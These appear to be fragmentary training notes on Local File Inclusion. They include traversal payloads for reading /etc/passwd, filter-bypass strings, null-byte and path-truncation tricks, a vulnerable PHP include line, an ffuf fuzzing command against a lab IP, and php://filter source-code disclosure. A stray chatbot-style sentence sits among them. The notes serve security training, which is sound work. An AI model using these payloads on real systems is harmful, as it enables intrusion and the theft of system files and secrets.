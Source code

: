 ## Info



## Enumeration

- `/etc/passwd`
- `C:\Windows\boot.ini`

We read a file by specifying its absolute path

Furthermore, any prefix appended to our input may break some file inclusion techniques

**Appending Extensions**

`include($_GET['language'] . ".php");`

**Second order attacks**

web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a Second-Order attack.

## Bypasses

`$language = str_replace('../', '', $_GET['language']);`:`..././`,`....//`,`....\/`

**Encoding**

Some web filters may prevent input filters that include certain LFI-related characters, like a dot . or a slash / used for path traversals. 

**Path Truncation**(before 5.3/5.4)

`XeroCyb3r@htb[/htb]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`

**Null Bytes**

`/etc/passwd%00`>>>>`/etc/passwd%00.php`

Certainly, here are the commands extracted from the provided information under each section:

### PHP Filters

#### Input Filters

```
# Fuzzing for PHP files using ffuf
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.62.49:51342/FUZZ.php
```

#### Source Code Disclosure

```
# Using the base64 PHP filter for source code disclosure
php://filter/read=convert.base64-encode/resource=config

# Decoding base64-encoded PHP source code
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```
